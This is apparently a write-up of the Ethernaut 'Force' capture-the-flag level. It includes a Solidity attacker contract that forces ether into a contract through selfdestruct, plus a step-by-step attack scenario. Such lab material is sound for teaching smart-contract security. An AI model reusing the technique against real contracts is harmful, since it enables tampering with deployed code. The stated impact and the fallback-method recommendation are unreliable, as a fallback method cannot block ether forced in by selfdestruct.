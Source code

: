 #### Some contracts will simply not take your money ¯\_(ツ)_/¯. The goal of this level is to make the balance of the contract greater than zero.

Things that might help:
- Fallback methods
- Sometimes the best way to attack a contract is with another contract.
- See the "?" page above, section "Beyond the console"

## Summary
The `Force` contact can be forced to take funds inside. However, they will remain trapped forever in it. Because it does not have any methods.

```solidity
contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

## Vulnerability Detail
An attacker could deploy another contract and forcefully send funds to the `Force` contract. They will remain trapped inside.

The malicious contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttacker {
    address public forceAddress;

    constructor(address _forceAddress) {
        forceAddress = _forceAddress;
    }

    function forceSendMoney() public payable {
        selfdestruct(payable(forceAddress));
    }
}
```

Attack scenario:
1. Attacker deploys the malicious contract `ForceAttacker`.
2. They call the `forceSendMoney()` method with a `value = 1 ether`.
3. This destroys the `ForceAttacker` contract and sends the `value` to the `Force` contract.
4. The attacker has successfully trapped `1 ether` inside the `Force` contract.

## Impact
High. An attacker can trap user funds forever inside the `Force` contract.

## Code Snippet
https://github.com/danielvichinyan/ethernaut-solutions/blob/main/force/Force.sol#L4-L10

## Tools Used
Remix IDE, Manual Review

## Recommendation
Provide fallback methods inside the `Force` contract to handle incoming funds efficiently.
